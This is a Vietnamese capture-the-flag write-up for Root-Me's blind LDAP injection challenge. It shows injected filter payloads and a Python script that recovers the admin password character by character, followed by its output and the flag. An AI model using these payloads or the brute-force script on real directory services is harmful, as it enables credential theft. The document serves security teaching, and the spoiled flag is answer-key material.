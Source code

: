# [LDAP injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Blind)

## Solutions

Có 2 user input:

- trang authentication: ở đây các kí tự như `*, (, ), ...` sẽ bị báo lỗi
- trang directory: ở đây user input bị lọc lỏng lẻo hơn:
  - không nhập gì mà submit thì có báo lỗi

Kiểm tra trang directory, quan sát được:

- có 2 trường được trả về là `sn` và `email`,
- query của bên trang directory có thể là:
  - `(&(email=*...*)(type=fixed))`: trong đó `...` là nơi input của user được đưa thẳng vào

Kiểm chứng suy đoán ở trên, thử các payload khác nhau:

- `)(sn=` => `(&(email=*)(sn=*)(type=fixed))`: vẫn hiển thị đầy đủ
- `)(sn=C` =>`(&(email=*)(sn=C*)(type=fixed))`: Chỉ hiển thị sn có bắt đầu bằng C

=> Có vẻ ok

Thử thay đổi `sn` thành `password` xem có attribute này không:

- `(&(email=*)(password=*)(type=fixed))`: Chỉ còn hiển thị mỗi email của tài khoản admin

=> có attribute `password` ở tài khoản admin

Để ý thấy filter `(password=*)` có thể giúp ta tìm được mất khẩu của admin, bằng cách bruteforce từng kí tự từ trái sang phải, vd:

- Thử `(password=a*)`, không in ra tài khoản admin => ký tự đầu của password không phải là `a`
- Thử `(password=d*)`, có in ra tài khoản admin => ký tự đầu của password là `d`
- Đã có ký tự đầu, tương tự thử lần lượt các ký tự sau đó, đến khi không còn in ra tài khoản admin nữa là ta đã lấy được đủ password

Viết python script:

```python
import requests

baseURL = 'http://challenge01.root-me.org/web-serveur/ch26/?action=dir&search=)(password='
password = ''

# đã loại một số ký tự đặc biệt như là &, #
characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$%\'()*+,-./:;<=>?@[\\]^_`{|}~'

ok = True
while(ok):
    ok = False
    for c in characters:
        r = requests.get(baseURL + password + c)
        if 'admin' in r.text:
            password += c
            ok = True
            break
    print(password)
```

Output:

```text
┌──(kali㉿kali)-[~/Documents]
└─$ python test.py
d
ds
dsy
dsy3
dsy36
dsy365
dsy365g
dsy365gd
dsy365gdz
dsy365gdze
dsy365gdzer
dsy365gdzerz
dsy365gdzerzo
dsy365gdzerzo9
dsy365gdzerzo94
dsy365gdzerzo94
```

Flag: `dsy365gdzerzo94`

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Blackhat%20Europe%202008%20%20-%20LDAP%20Injection%20&%20Blind%20LDAP%20Injection.pdf?_gl=1>
